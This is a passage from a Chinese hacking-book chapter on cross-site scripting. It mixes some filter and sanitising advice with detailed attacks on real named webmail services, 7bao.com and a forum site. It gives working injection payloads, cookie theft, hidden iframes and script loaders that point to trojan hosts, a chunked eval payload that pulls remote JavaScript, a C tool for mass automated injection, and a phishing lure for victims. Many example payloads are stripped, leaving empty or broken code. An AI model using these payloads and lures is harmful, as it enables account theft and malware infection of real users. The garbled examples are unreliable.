Str = re.replace(Str,"javascript:  ")   //过滤 javascript
re.Pattern="jscript:"
Str = re.replace(Str,"jscript:  ")      //过滤 jscript
re.Pattern="vbscript:"
Str = re.replace(Str,"vbscript:  ")     //过滤 vbscript
set re=nothing
```

你看，只要发现以 javascript 等脚本属性的形式都会被过滤掉，失去 `:` 的脚本代码是起不了作用的！这样完美了么？事实上 HTML 属性的值（注意是值而不是属性本身）是支持 `&#ASCII` 这种形式表示的，譬如上面的代码可以换成这样：

```html

```

代码又执行了，呵呵！看来你漏掉了点什么哦，加上这个代码吧！

```vb
replace(str,"&","&#x26;")
```

行了，`&` 失去它原来的意义了，用户不能以其他方式表示 HTML 属性值了哦！等等，这样的过滤真可以相信么？只要发现这种过滤的关键字机制，绕过就是简单的问题了：

``

没有 javascript 关键字了哦！注意中间那个是 Tab 键弄出来的！关键字被拆分了哦！这是个很麻烦的问题，很多人忘记了这些特殊字符，呵呵！有人想到要过滤空格了，在过滤之前我们再看看其他的一些东西吧！也许我们现在所处的 src 属性已经无法利用了，但是我们依然可以产生自己的属性或者事件机制哦！依然是可以执行 HTML 代码的，首先说说事件机制吧：

``

这样依然可以执行代码的哦！明白问题出在哪了，不是么？有的程序员仿佛明白了，注意我说的是仿佛，动网就是一个典型的例子。事件属性不是要 onerror 么？很多人开始用正则表达式了，发现关键的词如 onerror 就会做转换或者提示用户不执行，是不是没有机会了呢？

当然不是的，事件只是让代码运行的一种方法而不是所有的。可以定义事件了，那么也就可以实现自己弄出自己的属性了，试试下面的：

``

呵呵，还是执行了哦！同时下面的七条代码也可以实现跨站，这里给大家推荐：

- 1. `<style>input { left:expression(alert('xss'))} </style>`
- 2. `<div style="{ left:expression(alert('xss'))}">`
- 3. `<div style="{ left:exp/**/ression(alert('xss'))}">`
- 4. `<div style="{ left:\0065\0078pression alert('xss'))}">`
- 5. `html 实体 <di v style="{ left:&#x0065;xpression(alert('xss'))}">`
- 6. `全角<div style="{ left:xpression(alert('xss'))}">`
- 7. `unicode <div style="{ left:expRessioN(alert('xss'))}">`

在做关键字过滤之后，有人发现是不是属性之间分隔要用到空格。好，他们把空格堵死了（这样认为的人很多，呵呵）！将空格转成 `&nbsp;` 是个很普遍的方法？是么？甚至还可以让别人无法关键字拆分。不要太自信了，试试下面的代码看看如何：

``

嘿嘿，Good Work! 这好像是利用了脚本里注释会被当作一个空白来表示造成的！那怎么办呢？上面提到的好像一直都是在进行被动的攻击防御，为什么不抓住它的本源出来呢？哪里出了问题哪里堵上！

### （3）防止用户构造自己的 HTML 标记

由这个分析可以看出，我们第一个要过滤的就是用户提交变量中的 `<` 和 `>`，这样用户不就不能按照他的意愿产生 HTML 标记了。很对，所以我们第一个要消灭的就是 `<>` 这个罪魁祸首！

这主要在一些文章系统以及 BBS 发帖子，还有留言本提交的留言中，需要进行过滤，因为这些程序都是直接从数据库中取出数据，然后以一个 `response.write` 样的形式（ASP 中）返回给用户浏览器的，如我们的演示程序。

过滤代码：

`replace(str,"<","&#x3C;")`  
`replace(str,">","&#x3E;")`

### （4）防止来自标签属性的攻击

用户现在不能自己产生 HTML 标记了，是不是能安心了呢？当然不是。用户不能产生 HTML 标记，但是并不代表他不能在已有的 HTML 标记里进行动作，这里的例子就很多了，一不小心就会被利用！譬如 UBB 标签里的 `[img]code[/img]` 等，当转换的时候会成为 `</img>`。看看，用户提交的 code 是不是在 HTML 标记里了。好的，假设你过滤了用户提交内容中的 `<` 和 `>`，那我们看看这样的效果呢？图片地址是由用户控制的，我们输入 `javascript:alert("剑心是好人！")`，就会构造出这样的标记如下：

`</img>`

`</img>`

是不是都完美地执行了？如图 4-58 所示。

图4-58

这是因为用户提交的内容是在已有的 HTML 标记的属性里，而属性又支持 script 这样的形式，代码依然执行。当然不只是 img 有这个特性，因为今天是来讨论如何防御的，所以就不说其他的了，但是道理是一样的。看来光过滤 `<` 和 `>` 是没用的，用户利用已有的 HTML 标记照样跨站不误。来分析下这样的跨站代码吧！用户不能产生自己的 HTML 标记了，现在我们防御现有标记的属性。因为恶意用户使用的是 `javascript` 这样的属性，所以我们控制好用户的输入中不要存在 `javascript:` 和 `vbscript:` 这样的内容就行，或者注意用户要运行自己的跨站代码的话必须还有个 `:`，所以也可以干脆过滤其中的 `:` 代码。来试试吧！代码还是和上面的一样，充分利用了正则表达式，详细代码大家看前面的，不过需要注意的是中文的 `：` 是不起作用的。

好了，似乎可以了，过滤掉 `javascript` 和 `vbscript` 后面的 `:` 是很有用，但是我们知道 HTML 标签里的属性可以用转换了的 ASCII 字符来表示，譬如 `</img>`，转换 src 的属性内容部分为 ASCII 形式的变成：`</img>`，或者全部转换：`</img>`，转换成十六进制的也可以，注意只有 HTML 属性可以这样做的哦！像 `` 这些是不能这样转换的。试试看，提交后是不是代码又执行了？如图4-59所示。

图4-59

呵呵，光过滤 javascript 这些关键字还是不保险的，如果用户提交 `&#106` 这样的形式转换一部分代码，或者干脆完全转换，就可以逃避检测再次攻击了，黑客们总是能找到一些办法绕过。所以我们还要特别关注用户提交的 `&#` 字符，一般的用户也用得少。好了，破坏利用的条件就可以了，将 `&` 转换掉吧！代码是 `replace(str,"&","&#x26;")`。

## （5）防止来自事件机制的威胁

嘿嘿，是不是搞定了呢？不要高兴太早，我们来试试这样的形式吧！

```html
</img>
<a href=# onmouseover=alert("剑心要毕业啦！")></a>
```

嘿嘿，是不是都成功执行啦？如图4-60所示。看吧，攻击者没有提交 `<>` 字符，也没有用到 javascript 等标记，但是代码依然执行了！我们看看怎么回事，原来攻击者用空格分离了前面的 src 属性之后利用标记的事件机制启动他们的代码了，上面一个例子利用的是错误机制，后面的一个当鼠标从上面滑过的时候触发。知道了原理，如何防御也就出来了！攻击者要分离标签的属性，然后利用事件机制引发漏洞，我们破坏他的条件就可以啦！

图4-60

方法一是转换掉提交过来的空格字符：`replace(str, " ", "&#x20;");`  
方法二是用“将后面的提交内容限定为一个字符串”，这需要编写程序的时候注意。

看看效果哦！变成 `</img>`，这下子执行不了吧！？如果你采用了第二种，好的，那么你还有一点危险没有躲过去，如果用户提交的内容里本身就有 `"` 呢？我们知道 `"` 之间的内容系统会把它当成是字符串，所以我们提交这样的内容试试：`"#" onerror=alert('TeST_BY_Jnc') "`，变成 `</img>`，是不是又执行了？如图5所示。呵呵看来我们能用的东西黑客一样能用，好说，转换掉它！`Replace(Str, "\"", "&#34;")`。如果你觉得还不够，那么属性里用到的一个东西是 `=` 号，保险点过滤了吧！代码是 `replace(str, "=", "&#x3D;")`。

通过前面的学习，我们已经知道了数据的转换和过滤是可以在3个地方进行转换的：在接受数据的时候可以转换下，在进入数据库的时候可以转换下，在输出数据的时候也可以转换下。但是困惑在哪里呢？不得不面对一个问题，就是许多时候程序员舍不得为安全做出那么大的应用上的牺牲。安全是要有代价的，譬如现在邮箱就不愿意舍弃 HTML 标签，因为需要支持多姿多彩的页面，所以他们侧重于 XSS 的 IDS 检测性质，只要发现不安全的东西就会转化。但是攻击是无法预知的，漂亮的东西总是脆弱的，有限制，肯定就有人会绕过，呵呵。本文没什么技术含量，只是希望搞安全的脚本人员能更加了解 XSS。跨站，不是那么简单滴！

再次整理下我们的思路吧！先是要转换掉 `<>` 字符，让用户不能建立自己的 HTML 标记；然后防范已经有的 HTML 标记，通过过滤 javascript 和特殊字符 `&` 可以阻止用户修改标记的属性为 script；然后通过 `"` 和空格的过滤，使用户不能引发事件机制和重建其他的属性，将用户的输入限制在一个字符串内。在 HTML 组成的战争里还是我们取得了胜利，呵呵。然后就是具体的过滤代码的编写了，很多的程序员宁愿只允许用户输入某些字符，这样的确很安全但是却妨碍了正常用户，毕竟不是所有用户都像 BCT 的人那样喜欢找漏洞。最后有一点需要注意的是过滤的顺序，建议由内到外过滤，先过滤用户提交的 javascript 等后就转换 `&` 特殊字符，再处理其他的，因为本身其他的处理会产生 `&` 字符的。我写好的代码如下：

```vb
str=trim(str)    //过滤空格
If IsNull(Str) Then
    //IsNull函数是判断Str是否为空，不为空就不执行下面的过滤
    CheckStr = ""
End If
str=replace(str,"&","&#x26;")
str=replace(str,":","：")
str=replace(str,"=","&#x3D;")
str=replace(str,"<","&#x3C;")
str=replace(str,">","&#x3E;")
str=replace(str," ","&#x20;")
str=Replace(Str,"""","&#34;")
```

这里去掉了对 javascript 和 vbscript 后面 `:` 的过滤，因为我们看到这种类型的攻击已经因为 `:` 的转换成为中文的 `：` 变得不能成功了，并且不会影响正常用户的输入和输出，你也可以自己加一些字符的过滤。不过这里只给出的代码只是对跨站脚本攻击的防范，对其他的攻击如 SQL 等没有什么作用。

#### 4.7.3 跨站漏洞实例解析

在本节中，我就给大家引入三个跨站攻击的完整实例，让大家对跨站攻击有一个完整而全面的认识，而且有一个对系统渗透的完整思路。另外本节中的例子要比第二章的难度有所加大。不过我相信有前面的基础知识做保障，大家一定可以迅速掌握，并用到实际的攻击与防御中去。

第一个例子是《Sina、TOM、SOHU、21CN、163、QQ、126、Yahoo等国内邮箱再暴跨站漏洞》，这篇文章是由我写的。  
第二个例子是《疯狂的跨站之行——7bao网站漏洞利用浅析》，这篇文章是由剑写的。  
第三个例子是《由在华夏黑客联盟挂马谈跨站脚本攻击之 js 注入》。

### （1）Sina、TOM、SOHU、21CN、163、QQ、126、Yahoo等国内邮箱再暴跨站漏洞

编辑点评：国内门户网站的邮箱再次难逃 Hack 噩梦，被测试过的 Mail 几乎都存在着不同程度的瑕疵。真没有想到，拥有众多用户的门户邮箱竟然如此不堪一击，是因为 Mail 的结构有天生缺陷？还是这些门户们对于用户安全不够重视？本期的饕餮盛宴为你展示在 HACK 精妙的代码之下邮箱的脆弱性是如何暴露的。

- 从本文中你可以学到：
- 1、跨站的一些基本做法
- 2、作者的一些思路

在几个月前，国内的邮箱跨站漏洞被一些牛人们发现了，而且有详细的攻击方法和进入他人邮箱的演示过程。如今几个月过去了，邮箱的漏洞修补得怎么样呢？是否如人们想象的那么完美呢？经过我一番艰苦的对 TOM、SOHU、21CN、163 的邮箱黑箱测试，发现他们的安全性还是不尽人意，又出现了其他跨站漏洞。下面就仔细来分析他们的新跨站漏洞吧。

## 一、TOM邮箱跨站

### 1. HTML跨站

我先注册一个 SOHU 的邮箱，然后给 TOM 邮箱发送一封邮件，在邮件的主题和内容上都输入跨站代码 `<script>alert("TOM跨站")</script>`。在 TOM 邮箱收到邮件后打开，如图4-61所示。没有产生跨站效果，通过查看客户端代码发现都被转换了：

```html
<td class="TB_bg_EE" nowrap="nowrap">主题(Subject)：</td>
<td>&lt;script&gt;alert(&quot;TOM跨站&quot;)&lt;/script&gt;</td>
............省略代码
<td >&lt;script&gt;alert(&quot;TOM跨站&quot;)&lt;/script&gt; <br>
```

但是 TOM 提供了一个这样的功能，如图4-62所示。那就是可以下载整个邮件，而且下载回来本地后是用 HTML 格式保存的。下载到本地后我们打开这个文件就出现了跨站的效果了，如图4-63所示。

图4-61  
图4-62  
图4-63

为什么会出现这种情况呢？我们先来看看邮件的原文：

```text
..........省略
Content-Type: text/plain; charset="GB2312"
Content-Transfer-Encoding: 8bit
<script>alert("TOM跨站")</script> //没有过滤
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=GB2312"></head>
<body>
<!--SOHUMAIL_HTML_HEAD_END--><script>alert("TOM跨站")</script>
//没有过滤
<hr size=1><style type="text/css">
<!--
a {font-size:12px;color:black}
a:hover {font-size:12px;text-decoration:underline}
.b{font-family:Arial; font-size:80%; margin-bottom:2px;color:#0000CC}
.pp{font-family:Arial;font-size:10px}
-->
</style>
<table border=0>
<tr><td height=18><a href=http://goto.sohu.com/goto.php3?code=mailadt-tal
 target=_blank><font color=red>超大U盘免费等你拿</font></a>
</td><td rowspan="2">
</td></tr>
<br>
<tr><td height=18><a href=http://goto.sohu.com/goto.php3?code=mailadt-ta
 target=_blank>*用
 搜狗拼音写邮件，体验更流畅的中文输入>></a>
</td></tr>
</table>
```

可以很清楚地看到原文的跨站代码没有被过滤，而且第二个跨站代码是在一个网页文件中。我们下载这个网页其实就是把原文中的部分代码下载了下来，但由于它里面的跨站代码并没有过滤，所以出现了跨站漏洞，而且只有一个跨站代码被执行了。不过这个漏洞还是有点奇怪，如果是用 TOM 邮箱给 TOM 邮箱发送跨站代码，这个漏洞就不存在了。

####### 2. 签名跨站

TOM 邮箱一个比较好的功能是提供签名来识别邮件，如图4-64所示。但是它这里的签名却没有过滤好，比如我们输入的签名是跨站代码，如图4-65所示。修改后就出现了跨站效果，如图4-66所示。而且我们每次在写邮件时或者回复别人邮件时都弹出这个对话框。

图4-64  
图4-65  
图4-66

我们再来看看客户端代码：

```html
<form name="sendmail" method="post" action="/cgi/ldmmapp?
funcid=compose&sid=IAYFoBNf0WqAkIec">
<input type="hidden" name="signoption" value="&lt;option
value=&quot;1&quot;&gt;&lt;script&gt;alert(&quot;TOM签名跨站&quot;)
//跨站代码被转换了
&lt;/script&gt;&lt;/options&gt;" >
..................................省略代码
<input type="checkbox" name="ifsavetosent" value="y"  >
保存到发件箱        使用我的签名
<select name="sign" size="1" >
<option value="不使用" selected >不使用</option>
<option value="1"><script>alert("TOM签名跨站")</script></options>
//没转换，可以发现签名的两个输入框，它只过滤了签名的内容，而签名的提示却没有。
所以这里又出现了一个跨站漏洞。
```

## 二、21CN邮箱跨站

####### 1. 邮件签名跨站

21CN 有一个邮件签名的功能，它是用来对发出去的每个邮件都签上自己的名字。这个签名可以自己随便设定，如图4-67所示。我们在签名的标题和正文都输入跨站代码：

```html
<script>alert("21cn签名跨站")</script>
```

点击保存后，就可以跨站了，效果如图4-68所示。

图4-67  
图4-68

####### 2. 地址本跨站

21CN 还提供了一个地址本的功能，这里可以手工加入用户的邮箱地址，如图4-69所示。输入跨站代码：

```html
<script>alert("21cn地址本跨站")</script>
```

后并没有实现跨站，打开客户端代码：`<input size="20" name="Key" value="<script>alert("21cn地址本跨站")</script>"/>`。我们的代码被双引号闭合了，把双引号避开就是我们的任务了。经过一番分析发现 `"><script>alert('21cn地址本跨站')</script><"#` 可以绕过双引号的封锁，成功地跨站了，如图4-70所示。

图4-69  
图4-70

####### 3. 邮箱挂马漏洞

21CN 邮箱还有个巨大的漏洞就是可以用来挂马，而且有两个挂马漏洞。我们先来写封邮件，我用的是 21CN 邮箱给 21CN 邮箱发的邮件，如图4-71所示。我在邮箱的链接中加入了挂马代码。等我收到邮件后打开，发现出现了漏洞，如图4-72所示。

图4-71  
图4-72

这是我们的第一个挂马漏洞，再来测试第二个。我们先发邮件，在邮件的内容中写入挂马代码，如图4-73所示。在我们收到邮件后，肯定要回复邮件啦，那我们点击回复发件人后，就出现了挂马效果了，如图4-74所示。这应该是一个非常大的漏洞了，喜欢挂马的朋友可以疯狂地去发邮件哦。

```html
<iframe src=http://www.baidu.com width=300 height=200></iframe>


```

图4-73  
图4-74

###### 三、下载邮件跨站

首先要声明，TOM 邮箱提供两个下载邮件的功能，上面所讲述的是下载后是 HTML 文件功能的下载方式，而这里说的是下载后是 eml 格式方式的。这种方式目前 TOM、SOHU、21CN、163 等国内的邮箱都提供这个功能，目前国内提供这个功能的邮箱都存在这个漏洞。可以变相地用来跨站，而且下载回来的文件格式是 eml，如图4-75所示。它是 Outlook 的一种邮件格式，可以用 Outlook 打开。如果用 Outlook 打开是不会出现跨站漏洞的，但是如果把后缀名改成 HTML 格式就出现了跨站。这里拿 163 和 Sohu 来测试，如图4-76和图4-77所示。

图4-75
图4-76
图4-77

## 四、QQ邮箱跨站

####### 1. 邮箱显示昵称跨站

QQ邮箱借助QQ在国内通讯软件上的统治地位，拥有着非常大的用户群。相对于其他邮箱，它的功能较少，但是比较简洁好用。目前拥有简洁版Beta02和QQMail 3.0两个版本。简洁版中有一个邮箱显示昵称的功能，如图4-78所示。
图4-78

如果直接输入`<script>alert("邮箱显示昵称跨站")</script>`并不能够得到跨站效果，下面是返回来的代码：

```html
<table width="100%" border="0" cellspacing="0" cellpadding="8" class="settingtable">
<tr>
<td width="120" align="right" class="settingtd"><b>邮箱显示昵称: </b></td>
<td class="settingtd"><input name="nickname" type="text" class="txt" value="<script>alert(\"邮箱显示昵称跨站\")</script>" maxlength=32/></td>
<td align="right" class="settingtd"><b>每页显示: </b></td>
<td class="settingtd">
<select name="showcount" class="sel">
<option value=1 selected="selected">25(推荐)</option>
<option value=2 >50</option>
<option value=3 >100</option>
</select>&nbsp;封邮件
<script language="javascript">
document.web_set.showcount[1-1].selected = true;
</script>


```

我们发现跨站代码被双引号闭合了，但是可以用标签来突破限制，输入`"><script>alert("邮箱显示昵称跨站")</script><"`即可突破，从而得到跨站，如图4-79所示。
图4-79

####### 2. 通讯录跨站

QQ邮箱除了默认的QQ好友邮箱外，还可以自己添加联系人，如图4-80所示。在备注的输入框中可以输入跨站代码，其它地方做了限制，输入`<script>alert("通讯录跨站")</script>`即可看到效果，如图4-81所示。
图4-80
图4-81

## 五、126邮箱跨站漏洞

### 1. RSS阅读跨站

126邮箱本人认为是国内最专业的、功能也是最齐全的邮箱。但是功能多了，邮箱的结构也就复杂了，安全性自然也就更加艰巨了。在它邮箱服务中，提供了一个RSS的阅读功能，上面有很多的模块，如添加订阅、管理目录和订阅、生成OPML等等。在管理目录和订阅中我们可以自己添加目录，如图4-82。可这里并没有对`<`和`>`转换，所以我们输入图片跨站代码`</img>`后就出现了漏洞，如图4-83所示。
图4-82
图4-83

####### 2. 签名跨站

在个人邮件设置中提供了一个签名的小服务，可以自己修改签名，所以我们输入跨站代码`</img>`后得到的结果如图4-84所示。既然不可以有双引号，那么把它改成单引号，不就绕过了，如图4-85所示。
图4-84
图4-85

## 六、Yahoo邮箱跨站

Yahoo邮箱也是国内顶尖的一个邮箱服务提供商，功能上并不亚于其他邮箱。在邮件管理的电邮地址中，我们可以自己编辑发件人姓名、回复地址等等一些选项，如图4-86所示。
图4-86

我们在上面输入跨站代码后发现可以跨站，但是被双引号闭合了，代码如下：

```html
<table cellpadding=4 cellspacing=0 border=0 width="100%">
<tr valign="top">
<td class="label"><a name=fromname></a>发件人姓名：</td>
<td>
<input type=text name="FromName" value="<script>alert("cmd")</script>" class=tf size=20
maxlength=30>
<span class="helptext">该姓名将出现在发送邮件的 <em>发件人</em> 一栏中。</span>
</td>
</tr>
<tr valign="top">
<td class="label"><a name=replyto></a>回复地址：</td>
<td>
<input type=text name="ReplyTo" value="<script>alert("cmd")</script>" class=tf size=20
maxlength=40>


```

所以只要输入`"><script>alert("cmd")</script><`就可绕开双引号的限制了，如图4-87所示。
图4-87

同时在邮件管理中还提供了一个电邮地址通知，它的作用是发送一张卡片给你的朋友，通知你的新Yahoo!电邮地址，如图4-88所示。通过我的测试发现收件人输入框没有对数据进行转换，当然这里和上面一样，被双引号闭合了，所以要输入代码`"><script>alert("电邮地址通知跨站")</script><`才可以跨站，如图4-89所示。
图4-88
图4-89

## 七、sina邮箱测试

Sina作为国内最早提供邮箱功能的门户网站之一，其邮箱拥有大量的用户。不过，通过我的测试发现它在对信件的下载处同样没有处理好数据。我给自己发一封邮件，其中邮件主题写上：`<script>alert("漏洞咯")</script>`。在收到邮箱后，点击“原件下载”，然后把原来的文件的eml后缀名改为HTML，最后保存本地。之后我们打开之后就可以发现存在跨站漏洞，如图4-90所示。
图4-90

###### 八、总结

尽管官方把原来的邮箱漏洞给补上了，但是还是存在着一些地方的参数没有过滤或者转换，让我们依然有机会攻击。最近很多初学的朋友问我，跨站到底有什么用，只是弹出一个对话框来是什么意思？其实跨站漏洞的问题本质上是属于HTML的注入问题，如果没有严格筛选用户输入的数据，那么浏览器就会执行恶意用户所输入的HTML代码。

有了跨站其实我们可以做很多事，比如获取Cookies，我们只要输入`<script>alert(document.cookie)</script>`就可获得Cookie值。更重要的一个运用就是挂马，一般来说可以输入：

```html
<iframe frameborder=0 width=0 height=0
src=http://www.haha.com/xixi.html></iframe>
```

来挂马，这里我用21CN的邮箱来测试，如图14所示，我在邮件的主题和内容上都输入：`<iframe src="http://www.baidu.com" width="300" height="300" frameborder="0"></iframe>`，等我收到邮件后打开，这个时候就出现了BAIDU的页面了，而且是只要打开邮件就可中马。如果要挂马直接把地址修改成你的木马地址，并把高度和宽度都改成零即可。如果可以引入JS文件，那么还可以在JS文件中写入：

```javascript
document.write("<iframe style='display:none;' src='http://www.haha.com/xixi.html'></iframe>");
```

如果是支持CSS样式，那么我们还可以在CSS代码中加入我们的跨站代码，这样的隐蔽性就更加高了。代码如：

```css
body{
  background-image:url('javascript:document.write("<script src=http://www.haha.com/xixi.js></script>")')
}


```

对于上述的跨站漏洞，完全可以把跨站代码改成窃取Cookies值的代码或者挂马代码。不过这里要别人中马得用到一点社会工程学的知识，要骗别人去把邮件下载下来。比如对TOM的HTML跨站漏洞我们可以这样欺骗别人，在邮件的内容大致可以这样写：“TOM电影大放送，某某最新电影我们提供在线观看，但必须要把邮件下载到本地后才可得到电影地址。这是我们为了增加访问量而专门开发的一项技术，谢谢您的合作！”。那么只要用户下载了邮件，打开邮件的同时我们的木马地址也打开了，我们的肉鸡就是这样获得了。我想这样对于初学者就明白了跨站的真正目的了吧。这里只是理论上的探讨，如有利用本文技术而触犯法律的行为与本人无关。

## （2）、疯狂的跨站之行——7bao网站漏洞利用浅析

国内关于跨站漏洞的利用好像再次跌入了低谷，关于跨站利用的讨论已经不像以前那么火了，但是还是发现网络上到处都有Html字符过滤不严的现象出现，无论是大站还是小站，这些问题都还是到处存在，但是重视都不足够。记得在以前的一个文章里我提到了华夏黑客联盟使用的文章系统有js注入漏洞，文章的结尾提到了远程的整站注入但是没有实施，结果还被Lcx叔叔（编辑lcx：我老了，有那么老吗？）说是一个遗憾，正好最近又遇到了一个类似的情况，于是狠下心来把上次的想法实现了一下，也给大家一个思路，如何将简单的跨站演变为疯狂的行为。

7bao.com是国内一家给网络游戏提供交易的平台网站，在一次无意的对它进行安全测试中发现可能存在跨站方面的安全问题。问题出在对装备的评论那里，让我们去看看需要利用的地方所在、在什么问题吧！提交评论是需要登录的，我们还是注册个ID testbadegg，登录之后去提交评论吧。因为问题总是出现在参数提交的地方，在提交评论的地方我们发现可以提交2个参数，一个是联系方式，另一个是留言内容，如图4-91所示。
图4-91

因为这里我们测试的是跨站，所以敏感的字符是`"`、空格以及`<`等，那么我们就在联系方式和留言内容里都写上`<'hehe'>I love you!`，提交如图4-92，发现程序没有报错哦！那看看程序是怎么处理我们提交的数据吧！一切都是黑盒情况下进行的！所以我们在返回的页面里查看源文件中查找字符“hehe”，发现我们提交的留言里的特殊字符都被过滤掉了，但是显示联系方式的地方没有做任何过滤哦，如图4-93所示。呵呵，这么轻易地就发现了漏洞！不错吧！但是关于跨站的实际利用其实还是有另外一个限制因素的，那就是变量的长度！这里的变量允许输入多长呢？我们再提交一个留言吧！在联系方式里写上50个d然后提交，发现返回的地方只有30个了，如图4-94所示。很明显，联系方式那里的变量最大也只有30个字符的长度，那么现在的问题是如何利用30个字符的长度写一个有效的跨站代码呢？
图4-92
图4-93
图4-94

因为这里我们要用自己的script标记，所以必须在`<script></script>`中用掉了17个字符，剩下13个字符可以自由支配，当然我们就可以用`<script>alert('Test')</script>`来跨站玩玩，但是这除了遭人厌恶之外没有任何意义，我们最好引入一个Frame或者一个js代码嘛！那才够有威力！如果我们想用src属性引入一个js代码的话，`<script src></script>`用掉了22个字符，剩下8个字符是可以自由支配的，但是到了这个份上，我想8个字符是无论如何也满足不了大家需要的吧，根本无法引入一个有效的Url地址！

呵呵！程序是死的，但是我们的思想却是无限的，继续突破吧！注意这里我们是可以重复留言的，也就是说可以提交多个脚本标记，那么我们完全可以利用这个特性将代码拆分做我们想做的事！还要注意一点就是Js脚本的语法特性，多个js代码的话，后面的语句必须先提交才能在页面里让代码顺利执行！

有了上面的思路让我们继续吧！譬如我们要引`http://www.shell.net/1.js`这个js文件，然后我们就可以通过控制这个js文件来控制这个网站的页面了。如何做呢？我们可以利用这样的代码：`<script src=//www.shell.net/1.js></script>`引入js文件，但是如何引入上面的代码呢？我们可以知道js里面有个对象`document.write`方法可以在当前页面输入内容，如果我们将上面的代码内容用：`document.write('<script src=//www.shell.net/1.js></script>')`这样写就可以在当前页面引入js了，而如何执行上面的代码呢？我们又可以用这个函数`eval()`，这个可以执行某个变量的内容。至于如何控制变量，在这里我们是可以解决的，方法如下：

```html
<script>z='document.'</script>
<script>z=z+'write("'</script>
<script>z=z+'<script'</script>
<script>z=z+' src=ht'</script>
<script>z=z+'tp://ww'</script>
<script>z=z+'w.shell'</script>
<script>z=z+'.net/1.'</script>
<script>z=z+'js></sc'</script>
<script>z=z+'ript>")'</script>
<script>eval(z)</script>


```

上面的代码是引入一个字符串变量z，将`document.write('<script src=//www.shell.net/1.js></script>')`拆开，分多次将其嵌入到变量z中，最后通过`eval(z)`执行需要的代码，这在狭小的用户输入里，也许是唯一的方法！不多说，看看结果吧！如图4-95所示，呵呵，是不是都乖乖地在页面里了？
图4-95

到这里大家也发现这个小漏洞利用起来是很麻烦的事情，每次都要输入10次左右的留言才能对一个ID进行跨站脚本攻击？有没有简便的方法呢？这就要用到上次文章里的思路了：抓包，然后让程序代替我们就可以了哦！随着ID的增加，跟整站被挂马跨站脚本攻击没有什么两样！

现在是编程时间，也是这次疯狂跨站最耀眼的地方。首先我们换个发表留言，并且抓包，将得到的数据按顺序放到.txt文件中，为了分别，我将它们命名为0.txt-9.txt，如图4-96所示。
图4-96

一定要按照顺序哦，也就是`<script>eval(z)</script>`这样的代码一定要先发送！注意为了ID的处理方便我们改变下变量的顺序，将ID放到POST内容的最后，并且变成`ID=`的形式，这样我们就可以自己组合ID对网站进行程序化的注入了！然后就是代码的构造，我给出的程序主要框架如下：

```c
void usage();
void initconnect();
void sendtata();
main()
{
    if(WSAStartup(MAKEWORD(2,2),&wsa) == 0){
        usage();          //用法函数
        initconnect();    //网络连接
        sendtata();       //发送数据包，完成注入
        WSACleanup();     //清除数据
    }
    return 0;
}
```

其中`initconnect()`函数完成网络的初始化并且与目标网站进行连接，代码我就不发出来了，跟其它程序的网络连接函数差不多。剩下的就是利用`sendtata()`函数进行发送数据包的工作！`sendtata()`函数的编写很简单，我写的代码如下：

```c
int sendtata()
{
    int sendtime;              //控制发送的文件
    char filename[128]="\0";
```

```c
FILE *fp1;
char temp[1024] = "\0";
int lread;
char receive[50000] = "\0";

for (sendtime = 0; sendtime <= 9; sendtime++)
{
    filename[0] = (char)(sendtime + 48);  // 读取数据包文件
    strcat(filename, ".txt");

    if ((fp1 = fopen(filename, "r+")) == NULL)
    {
        printf("Error To Open inputFile %s!\r", filename);
        exit(0);
    }
    printf("Read File %s     OK\n", filename);

    while (!feof(fp1))
    {
        fgets(temp, 1024, fp1);      // 发送数据包
        send(server, temp, strlen(temp), 0);
        ZeroMemory(temp, sizeof(temp));
    }
    send(server, ID, strlen(ID), 0);
    // 构造自定义的ID，可以作为全局变量在main函数里控制
    lread = recv(server, receive, 50000, 0);
    if (debug == 1) { puts(receive); }
    if (lread > 0) {
        printf("ID:%S Send %S OK\n", ID, filename);
        ZeroMemory(receive, 50000);
        ZeroMemory(filename, sizeof(filename));
    }

    fclose(fp1);
    ZeroMemory(filename, sizeof(filename));
    Sleep(1000);
}
printf("\n###############           ID:%S Injected OK! ###############\n", ID);

return 0;
}


```

这样编译出来的程序运行下，感觉还不错，如图4-97所示。呵呵，挂在肉鸡上进行疯狂的注入吧！尽管是单线程并且为了代码的有效性，严格控制了时间，但是注入速度还是很快的！打开个页面看看效果吧！哈哈！还不错，如图4-98所示。
图4-97
图4-98

一个小的漏洞利用起来危害还是很大的，这次把Lcx大叔说的遗憾终于完美地解决，也算不错的！在实际的跨站以及其他利用中，环境各不相同，如何发挥自己的想象力达到自己想要的目的，才是一个入侵者必备的素质。谢谢大家听完我啰嗦，有什么问题到论坛讨论，我的ID是剑心。

**编辑点评：** 一个巧妙的思路，解决了在7bao.com网站30个字符长度内跨站的问题。根据这个思路，我数了一下，最小的有效利用代码可以缩减到26个字母，就是写成类似`<script>z=z+`d`</script>`这样的形式（好像双引号和加号不可以少）。当然也希望读者来挑战更短更小的跨站代码，让我们的跨站技术更精彩更疯狂。

## （3）由在华夏黑客联盟挂马谈跨站脚本攻击之JS注入

上次在QQ上有个叫猪什么的告诉我说华夏黑客联盟上有跨站脚本攻击漏洞，让我去看看。我想这样的站应该没什么问题吧，不然还不让人给跨站跨疯了？但是等我跑去一看，还真的有问题哦！不过利用和探测起来跟其他站点有点不一样。其他时候的跨站我们是直接提交数据到数据库，然后程序取出数据注入到HTML的，因此要支持HTML语法就可以了，但是这次很有点特别。因为我们的数据没有被直接返回，而是注入到JS，也就是JavaScript脚本里面返回给浏览器，用`<script src=fuck.js>`这样的形式调用。这样说可能大家有点不明白，还是一步步来探测吧！

问题是出在评论提交的地方，看看提交参数比较多，所以应该很容易出问题。我们尽量将每个参数都测试到，最保险的黑盒方法是将其他参数保留为对的，然后将某个参数替换，插入我们要探测的字符如`<`和`'`等等，依据返回的错误等信息来判断程序是如何处理参数的！我比较怕麻烦，就直接测试名字和主页两个参数吧！测试情况如图4-99所示，发表后结果如图4-100那样。呵呵，成功返回，没有过滤的样子，但是只是成功了一半！
图4-99
图4-100

如果程序将字符串转换了再放到数据库中还是白搭！去查看评论的地方，看看返回的信息吧！搜索我们刚才发表的内容，明明显示了发表的是hehe，但居然搜索不到这个字，如图4-101所示。晕！看看他怎么搞的！找到关键的地方，如图4-102所示。嘿嘿，是通过引入JS来显示提交的内容啊！看那个`/article/comment.asp?action=js&article=59330`就是生成的JS地址，访问然后查看源代码，这下子过滤方式就清楚了，如图4-103所示。看看，我们提交什么它就直接显示什么哦！没有什么过滤！今天的问题就来了：当我们提交的数据是在JS里面而不是在HTML里的时候该怎么办呢？也就是JS注入的问题了！
图4-101
图4-102
图4-103

